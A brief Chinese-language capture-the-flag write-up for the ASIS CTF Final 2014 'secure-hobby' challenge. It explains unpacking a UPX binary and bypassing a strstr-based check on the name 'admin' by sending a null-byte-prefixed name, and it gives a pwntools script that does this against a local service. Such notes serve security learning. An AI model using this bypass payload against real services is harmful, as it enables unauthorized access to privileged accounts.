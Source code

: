 # asis ctf final 2014 - Notes

## secure-hobby

丟 ida pro 用 shift f12 可以看到 upx

所以要先脫殼

他是一個 socket 開在 localhost:35565

本地測試會需要在當前目錄下創兩個檔案
1. flag
2. namak

簡單看一下程式碼可以知道，要得到 admin 的 key 就可以 get flag

不過在 register 的時候不可以打 admin ，不過在 register 那邊的程式碼

他判斷的方式是用 strstr 來看你的輸入名稱是不是 admin

所以可以透過輸入 `\x00admin` 來繞過

所以 solution:

```python
#!/usr/bin/env python
from pwn import *

HOST = '127.0.0.1'
PORT = 35565
r = remote(HOST, PORT)

print r.recvrepeat(0.3)
r.sendline('1')
r.sendlineafter(':', '\x00admin')

r.interactive()
```